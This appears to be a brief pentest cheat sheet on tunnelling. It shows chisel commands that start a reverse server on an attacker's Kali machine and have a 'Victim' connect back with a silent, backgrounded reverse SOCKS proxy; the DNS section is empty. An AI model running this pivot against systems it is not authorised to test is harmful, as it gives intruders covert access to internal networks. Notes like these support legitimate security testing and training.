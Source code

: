 # Tunnelling

# HTTP Tunnelling

## `chisel`
- Server: Kali (TCP/1080)
- Client: Victim
Start the server:
```
chisel server --port 8080 --reverse
```
Bind the client:
```
chisel client <srv-ip>:<srv-port> R:socks > /dev/null 2>&1 &
```


# DNS Tunnelling
